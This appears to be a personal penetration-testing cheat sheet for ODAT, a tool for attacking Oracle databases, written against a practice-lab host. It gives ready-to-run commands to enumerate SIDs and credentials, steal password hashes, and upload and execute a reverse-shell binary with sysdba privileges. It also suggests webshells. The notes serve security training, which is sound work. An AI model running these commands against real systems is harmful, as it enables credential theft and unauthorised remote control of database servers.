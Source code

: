 ### Oracle (ODAT)

This is a suite of tools used for hacking Oracle databases.

Source:  https://github.com/quentinhardy/odat

Installed through `apt install odat`

#### Diagram of Features

![odat](.odat.assets/ODAT_main_features_v2.0.jpg)

### Enumeration

1. Scan everything, look for SID's and creds

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 
   ```

2. If you found any credentials, re-scan using those credentials and the SID you found them on:

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 -d SID -U myuser -P mypass --sysdba
   
   # Options
   --sysdba 	# Sudo for Oracle, elevates privileges
   ```

#### Pilfering

1. Try to steal remote passwords

   ```bash
   sudo odat stealremotepwds -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --get-all-passwords
   ```

2. To find columns in tables with password-like names:

   ```bash
   odat search -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --pwd-column-names
   ```

3. Search for specific column names:

   ```bash
   odat.py search -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --columns '%password%'
   ```

### File Transfers

Consider uploading a reverse shell and executing it, if execution is available.  If not, try uploading a webshell instead.

1. To upload files:

   ```bash
   odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ win_revtcp_8000.exe /home/coyote/htblab/oscp_like/82/win_revtcp_8000.exe
   # Yes, you have to do the whole path AND there is a space between C:/ and the filename
   ```

2. To execute a file (cannot use arguments):

   ```bash
   odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ win_revtcp_8000.exe
   # there is a space between C:/ and the filename
```
   
   
